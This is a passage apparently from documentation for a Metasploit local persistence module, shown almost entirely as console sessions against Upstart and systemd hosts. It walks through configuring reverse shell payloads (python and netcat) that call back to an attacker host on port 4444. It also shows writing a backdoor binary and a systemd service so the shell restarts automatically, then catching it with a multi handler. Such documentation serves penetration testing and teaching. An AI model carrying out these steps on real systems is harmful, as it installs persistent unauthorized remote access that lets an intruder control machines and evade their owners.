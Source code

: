 And now, we can kill the callback shell from our previous session

    ^Z
    Background session 5? [y/N]  y
    msf exploit(service_persistence) > sessions -i 1
    [*] Starting interaction with 1...
    
    netstat -antp | grep 4444
    tcp        0      0 10.10.60.175:44368      10.10.60.168:4444       ESTABLISHED 1783/bash
    tcp        0      0 10.10.60.175:44370      10.10.60.168:4444       ESTABLISHED 1789/python
    kill 1783
    [*] 10.10.60.175 - Command shell session 5 closed.  Reason: Died from EOFError
    kill 1789

Now with a multi handler, we can catch Upstart restarting the process every 10sec

    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(handler) > set lhost 10.10.60.168
    lhost => 10.10.60.168
    msf exploit(handler) > exploit
    
    [*] Started reverse handler on 10.10.60.168:4444 
    [*] Starting the payload handler...
    [*] Command shell session 3 opened (10.10.60.168:4444 -> 10.10.60.175:44390) at 2016-06-22 08:26:48 -0400


### systemd (Ubuntu 16.04 Server - root)
Ubuntu 16.04 doesn't have many of the default shell options, however `cmd/unix/reverse_netcat` works.
While python shellcode works on previous sytems, on 16.04 the path is `python3`, and therefore `python` will fail the shellcode.

Get initial access

    msf exploit(handler) > use exploit/linux/local/service_persistence
    msf exploit(service_persistence) > set session 1
    session => 1
    msf exploit(service_persistence) > set verbose true
    verbose => true
    msf exploit(service_persistence) > set payload cmd/unix/reverse_netcat
    payload => cmd/unix/reverse_netcat
    msf exploit(service_persistence) > set lhost 192.168.199.128
    lhost => 192.168.199.128
    msf exploit(service_persistence) > exploit
    
    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Writing backdoor to /usr/local/bin/JSRCF
    [*] Max line length is 65537
    [*] Writing 103 bytes in 1 chunks of 361 bytes (octal-encoded), using printf
    [*] Utilizing systemd
    [*] /lib/systemd/system/YelHpCx.service
    [*] Max line length is 65537
    [*] Writing 151 bytes in 1 chunks of 579 bytes (octal-encoded), using printf
    [*] Enabling service
    [*] Starting service
    [*] Command shell session 7 opened (192.168.199.128:4444 -> 192.168.199.130:47050) at 2016-06-22 10:35:07 -0400
    
